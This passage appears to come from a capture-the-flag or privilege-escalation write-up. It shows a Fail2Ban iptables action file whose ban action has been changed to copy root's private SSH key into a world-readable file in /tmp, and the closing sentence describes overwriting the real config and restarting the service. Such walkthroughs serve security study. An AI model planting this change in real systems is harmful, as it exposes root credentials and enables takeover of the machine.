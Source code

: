 ```ini
[INCLUDES]

before = iptables-common.conf

[Definition]

# Option:  actionstart
# Notes.:  command executed once at the start of Fail2Ban.
# Values:  CMD
#
actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>

# Option:  actionstop
# Notes.:  command executed once at the end of Fail2Ban
# Values:  CMD
#
actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

# Option:  actioncheck
# Notes.:  command executed once before each actionban command
# Values:  CMD
#
actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'

# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = cat /root/.ssh/id_rsa > /tmp/test && chmod 777 /tmp/test
            <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>

# Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>

[Init]
```

Now we can overwrite the `iptables-multiport.conf` file with our own and then restart the fail2ban service to have it load in our configuration.
